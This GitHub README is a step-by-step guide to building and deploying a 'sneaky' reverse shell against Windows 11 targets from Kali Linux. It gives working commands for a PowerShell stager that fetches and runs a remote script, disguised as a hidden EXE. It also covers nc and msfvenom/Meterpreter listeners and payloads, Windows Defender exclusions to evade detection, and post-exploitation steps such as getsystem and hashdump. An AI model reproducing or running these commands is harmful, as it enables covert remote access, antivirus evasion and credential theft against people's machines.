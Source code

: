 ### Get-ReverseShell README

This repository provides a tool to facilitate the creation and deployment of a sneaky reverse shell on Windows 11 targets, enhancing your penetration testing capabilities. This tool allows you to establish a connection between your Kali Linux machine and the target system, providing a powerful means for further exploration.

## Prerequisites

Before using this tool, ensure that you have the following:

1. **Kali Linux:** Make sure you have Kali Linux installed, along with `msfconsole`, `msfvenom` and any web-server.
2. **Windows 11:** You need a Windows 11 machine to create an executable file from PowerShell scripts (EXE). Wine may be an option, but it's not officially supported.
3. **Target Windows 11:** The machine you intend to target.

## Configuration Variables

These variables can be adjusted according to your environment. Use Ctrl + F to locate and modify them easily.

```variables
$lhost = "192.168.0.2"                        # IP address of your Kali host
$lport = 4444                                 # Listening port on your Kali
$lport_sneaky = 5555                          # Sneaky listening port on your Kali
$lwebpath = "/var/www/html/"                  # Path to the open website on your Kali
$lwinpath = "C:\Users\w\"                     # Working path on the Windows 11 target
$lpath = "/home/k/Desktop/"                   # Path to a local directory on your Kali
$rpath = "C:\Users\w\Desktop\"                # Working path on the attacking host
$ps_name = "reverse_shell.ps1"                # Name of your Meterpreter reverse shell PowerShell file
$exe_name = "reverse_shell.exe"               # Name of your attacking sneaky reverse shell executable file
$sneaky_exename = "sneaky_reverse_shell.exe"  # Name of your attacking sneaky reverse shell sneaky executable file
$sneaky_psname = "sneaky_reverse_shell.ps1"   # Name of your sneaky reverse shell sneaky PowerShell file
```

## Usage

# Kali Linux
1. Press `Ctrl + Alt + t` for open a first Kali Linux terminal and execute **sudo su** and this following commands:

```bash
cd $lpath
git clone https://github.com/gh0x0st/Get-ReverseShell
cd ./Get-ReverseShell
```
2. Write `pwsh` for open a PowerShell terminal and execute the following commands for create sneaky reverse shell script:
```pwsh
Import-Module ./get-reverseshell.ps1
get-reverseshell -Ip $lhost -Port $lport_sneaky
```

3. Write your sneaky reverse shell script in the file `$lpath/$sneaky_psname` after line ">> https://github.com/gh0x0st".

4. Write `exit` and continue in first Kali Linux terminal with the following commands:

```bash

cp $sneaky_psname $lwebpath
nc -nvlp 5555
```

# Windows 11
1. Open a Windows 11 PowerShell with administrator privileges and run the following commands:

```powershell
Set-ExecutionPolicy Bypass
Install-PackageProvider -Name NuGet -MinimumVersion 2.8.5.201 -Force -Confirm:$false -ErrorAction SilentlyContinue
Install-Module -Name ps2exe -Force -Confirm:$false -ErrorAction SilentlyContinue
@"
# PowerShell script for downloading and executing the sneaky reverse shell
`$scriptUrl = "http://$lhost/$sneaky_psname"
`$scriptBytes = Invoke-WebRequest -Uri `$scriptUrl -UseBasicParsing -Method Get -MaximumRedirection 0
`$scriptContent = [System.Text.Encoding]::UTF8.GetString(`$scriptBytes.Content)
Invoke-Expression -Command `$scriptContent
"@ | Out-File -FilePath "$lwinpath$sneaky_psname" -Encoding UTF8
Invoke-ps2exe $lwinpath$sneaky_psname $lwinpath$sneaky_exename -noconsole -noerror -nooutput -sta -x64
```

2. Send and execute the sneaky backdoor on the target machine with administrator privileges.

# Return to the Kali Linux

6. Return to the Kali terminal and check for a successful connection. You should see somesthing like that:

```bash
┌──(root㉿kali)-[/home/k/Desktop]
└─# nc -nvlp 5555
listening on [any] 5555 ...
connect to [192.168.0.2] from (UNKNOWN) [192.168.0.20] 62074
                                                                                                                                                                                                                                            
PS C:\Users\w\Desktop>
```

7. If successful, you can proceed with further commands in the sneaky reverse shell for allow Meterpreter Reverse Shell and expand backdoor.
```powershell
Set-ExecutionPolicy Bypass
Add-MpPreference -ExclusionProcess "cmd.exe"
Add-MpPreference -ExclusionProcess "powershell.exe"
Add-MpPreference -ThreatIDDefaultAction_Ids @(2147735445) -ThreatIDDefaultAction_Actions @('Allow')
Add-MpPreference -ExclusionExtension @("exe", "dll", "ps1", "vbs")
Add-MpPreference -ExclusionPath '$rpath$sneaky_exename'
Add-MpPreference -ExclusionProcess "$sneaky_exename"
```


8. Checkout Windows Defender rules via this command
```powershell
Get-MpPreference
```

## Meterpreter Reverse Shell

To use Meterpreter for enhanced functionality:

1. Open a new Kali terminal and execute the following commands:

```bash
sudo su
msfvenom -p windows/x64/meterpreter/reverse_tcp --format psh -o $lpath$ps_name lhost=$lhost lport=$lport
```

2. Create an EXE file for running without a shell in the target:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --format exe -o $lpath$exe_name lhost=$lhost lport=$lport
```

3. Use the provided PowerShell script for pasting in the original Kali shell:

```bash
pwsh
./ps2tcps.ps1 -inputFilePath $lpath$ps_name -outputFilePath $lpathnew$ps_name -newPath "$rpath$ps_name"
cat $lpathnew$ps_name
```

4. Open a new Kali terminal and execute the following commands:

```bash
sudo su
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.0.2
set lport
exploit
```

5. Return to the original Kali shell and paste the content of your Meterpreter script on the target:

```powershell
Add-Content -Path $rpath$ps_name -Value 'line1'
Add-Content -Path $rpath$ps_name -Value 'line2'
Add-Content -Path $rpath$ps_name -Value 'line3'
Add-Content -Path $rpath$ps_name -Value 'line4'
...
Add-MpPreference -ExclusionPath '$rpath$ps_name'
Add-MpPreference -ExclusionPath '$rpath$exe_name'
```

6. If successful, you will see a Meterpreter session opened in the msfconsole. Congratulations, you have a full reverse shell on your target.

## Example Commands

Here are some example commands you can use in the Meterpreter shell:

- `getuid`: Get the user ID of the current user.
- `getsystem`: Attempt to gain system privileges.
- `hashdump`: Retrieve hashes of all users on the target.
- `background`: Move the current session to the background.
- `help`: Display a list of available commands and their descriptions.

Feel free to explore and experiment with additional Meterpreter commands for a comprehensive assessment. Happy hacking!
